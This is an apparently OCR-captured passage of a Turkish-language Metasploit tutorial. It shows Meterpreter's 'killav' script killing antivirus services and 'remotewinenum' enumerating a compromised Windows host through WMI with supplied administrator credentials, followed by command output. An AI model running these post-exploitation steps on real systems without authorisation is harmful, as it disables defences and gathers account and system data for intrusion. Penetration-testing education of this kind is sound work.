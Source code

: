 
```bash
 meterpreter > run killav  > Killing Antivirus services on the target...
 > Killing off cmd.exe...
```



## remotewinenum



`remotewinenum` scripti, hedef sistem hakkında bilgi etmek için kullanılır.


```bash
meterpreter > run remotewinenum

**[!]** Meterpreter scripts are deprecated. Try post/windows/gather/wmic_command.
**[!]** Example: run post/windows/gather/wmic_command OPTION**=**value **[**...]
Remote Windows Enumeration Meterpreter Script
This script will enumerate windows hosts **in **the target enviroment
given a username and password or using the credential under witch
Meterpeter is running using WMI wmic windows native tool.
Usage:

OPTIONS:

    -h        Help menu.
    -p   Password of user on target system
    -t   The target address
    -u   User on the target system **(**If not provided it will use credential of process**)** meterpreter > run remotewinenum -u administrator -p ihazpassword -t 10.211.55.128 > Saving report to /root/.msf4/logs/remotewinenum/10.211.55.128_20090711.0142 
 > Running WMIC Commands ....
 >     running command wimic environment list
 >     running command wimic share list
 >     running command wimic nicconfig list
 >     running command wimic computersystem list
 >     running command wimic useraccount list
 >     running command wimic group list
 >     running command wimic sysaccount list
 >     running command wimic volume list brief
 >     running command wimic logicaldisk get description,filesystem,name,size
 >     running command wimic netlogin get name,lastlogon,badpasswordcount
 >     running command wimic netclient list brief
 >     running command wimic netuse get name,username,connectiontype,localname
 >     running command wimic share get name,path
 >     running command wimic nteventlog get path,filename,writeable
 >     running command wimic service list brief
 >     running command wimic process list brief
 >     running command wimic startup list full
 >     running command wimic rdtoggle list
 >     running command wimic product get name,version
 >     running command wimic qfe list
```
